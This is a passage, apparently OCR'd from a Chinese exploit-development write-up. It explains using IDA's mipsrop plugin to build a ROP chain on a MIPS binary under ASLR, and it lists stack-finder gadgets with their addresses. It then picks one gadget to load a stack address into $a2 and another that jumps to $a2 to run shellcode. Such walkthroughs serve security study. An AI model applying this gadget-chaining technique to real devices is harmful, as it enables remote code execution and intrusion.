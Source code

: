 ### rop
刚直接ret2shellcode，这是在栈地址不变的情况下，如果开了aslr，我就需要通过rop利用。     
思路——获取栈地址：  
1. 我们可以让一个栈地址拷贝到寄存器上，把shellcode写在这个栈空间。    
  mips.stackfind()可以满足这个需求。    
  Python>mipsrop.stackfinder()     
```
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x004273C4  |  addiu $a2,$sp,0x70+var_C                            |  jalr  $s0                             |
|  0x0042BCD0  |  addiu $a2,$sp,0x88+var_C                            |  jalr  $s2                             |
|  0x0042FA00  |  addiu $v1,$sp,0x138+var_104                         |  jalr  $s1                             |
|  0x004491F8  |  addiu $a2,$sp,0x44+var_C                            |  jalr  $s1                             |
|  0x0044931C  |  addiu $v0,$sp,0x30+var_8                            |  jalr  $s1                             |
|  0x00449444  |  addiu $a2,$sp,0x44+var_C                            |  jalr  $s1                             |
|  0x0044AD58  |  addiu $a1,$sp,0x60+var_28                           |  jalr  $s4                             |
|  0x0044AEFC  |  addiu $a1,$sp,0x64+var_28                           |  jalr  $s5                             |
|  0x0044B154  |  addiu $a1,$sp,0x6C+var_38                           |  jalr  $s2                             |
|  0x0044B1EC  |  addiu $v0,$sp,0x6C+var_40                           |  jalr  $s2                             |
|  0x0044B3EC  |  addiu $v0,$sp,0x170+var_130                         |  jalr  $s0                             |
|  0x00454E94  |  addiu $s7,$sp,0xB8+var_98                           |  jalr  $s3                             |
|  0x00465BEC  |  addiu $a1,$sp,0xC4+var_98                           |  jalr  $s0                             |
----------------------------------------------------------------------------------------------------------------
```
Found 13 matching gadgets
选取第一个，等同于 `0x004273C4	addiu $a2,$sp,0x64	jalr $s0`     
这样，我们将shellcode写在sp+0x64     
但是还需要执行$a2，为此要将$s0寄存器去执行这个任务。 
2. 找执行$a2的指令，即跳转，jalr $a2和jr $a2。  
这块插件支持的不好，我们只能打印所有的gadget的搜索` Python>mipsrop.stackfinder`。    
0x00421684     
```
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x004002FC  |  lw $ra,0x1C+var_s0($sp)                             |  jr    0x1C+var_s0($sp)                |
| ... |  ...      |  ...                      |
|  0x00421684  |  move $t9,$a2                                        |  jr    $a2                             |
```
